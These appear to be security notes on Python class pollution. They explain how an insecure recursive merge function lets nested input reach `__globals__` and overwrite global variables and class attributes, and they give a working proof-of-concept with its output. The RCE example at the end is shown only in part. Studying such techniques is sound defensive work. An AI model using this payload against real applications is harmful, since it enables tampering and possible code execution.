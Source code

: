 ### Pollution using `__globals__`
`__globals__` is a dictionary object that gives us access to the global scope of a function which allows us to access defined variables, imported modules, etc.
`__globals__` attribute is accessible from any of the **defined** methods of the instance we control, such as `__init__`.

We cannot use built-in methods inherited from the `object` class, such as `__str__` unless they were overridden.

>[!Warning]
>Keep in mind that `<instance>.__init__`, `<instance>.__class__.__init__` and `<class>.__init__` are all the same and point to the same class constructor.

In the example below, we leveraged the special attribute `__globals__` to access and set an attribute of `NotAccessibleClass` class, and modify the global variable `not_accessible_variable`. `NotAccessibleClass` and `not_accessible_variable` wouldn’t be accessible without `__globals__` since the class isn’t a parent class of the instance we control and the variable isn’t an attribute of the class we control.

```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass
not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable)
print(NotAccessibleClass)

#> Polluted variable
#> <class '__main__.PollutedClass'>
```

This technique can be used to overwrite default variable values and eventually obtain RCE:
```python
import subprocess, json

class Employee:
    def __init__(self):
        pass

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
```

[^class]: [`__class__`](../Dev,%20scripting%20&%20OS/Python.md#`__class__`)
[^attributes]: [`__class__` attributes](../Dev,%20scripting%20&%20OS/Python.md#`__class__`%20attributes)
[^IDEK]: https://ctftime.org/writeup/36082